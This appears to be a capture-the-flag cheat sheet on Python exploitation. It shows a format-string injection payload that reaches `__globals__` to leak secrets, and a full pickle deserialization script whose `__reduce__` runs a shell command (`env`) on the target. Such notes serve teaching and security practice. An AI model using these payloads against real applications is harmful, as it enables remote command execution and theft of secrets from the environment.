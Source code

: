 # Python

## Format string injection

Format string injection usually occurs when using `.format()`.

Example:
```py
a = input()
vuln = f'{{{a}}}'.format(random_string='asdf')
```

> `f'{{{a}}}'` resolves to `'{asdf}'`, input being `'asdf'`, which is passed to `'{asdf}'.format()`

> Instead of a single key, a dictionary can also be passed into `.format(**dict)`

The exploit is similar to SSTI RCE, but in this case, we don't have RCE as we cannot execute anything. Rather, we only can leak sensitive secrets (like flags)

1. Get access to a `__globals__` through the dict passed in 
	* `<key>.__init__.__globals__`
2. Access any global variable through `__globals__[name]`

> Note: if the application passes in additional attributes (like `f'{{{a}.code}}.format(**dict)`) that does not exist 
> in a string, you can escape {} and access another "proper" item that has the desired attribute

Payload:

`{item.__init__.__globals__[flag]} {item`

## Pickle unserialize

The pickle module is vulnerable to unsafe deserialization of Python objects.

Exploit:

```py
DEFAULT_COMMAND = ['env']

import pickle
import base64
import requests

#COMMAND = sys.argv[1] if len(sys.argv) > 1 else DEFAULT_COMMAND

class PickleRce(object):
    ''' __reduce__ can return either a string or a tuple. If it returns a string, then it should be the name of a global variable. If it returns a tuple, it should be in the following syntax: callable, (args), *object's state (will be passed to __setstate__(), *iterator of items (for list subclasses), *iterator of key-value pairs (for dict subclasses or if the class implements __setitem__()), *(obj, state) to set state of class (overriding __setstate__() if implemented)

    The one we are interested in for RCE is callable, (args)

    This has been implemented below.
    '''

    def __reduce__(self):
        import subprocess
        #import os
        return subprocess.check_output, (DEFAULT_COMMAND,)

def gen_payload():
    payload = bytes.decode(base64.b64encode(pickle.dumps(PickleRce())), 'utf-8')
    return payload

print(gen_payload())
```

Instead of `subprocess.check_output`, we can also use `os.popen().read()`, but note that on Windows, there is an issue serializing the os module which becomes "nt" module for some reason.

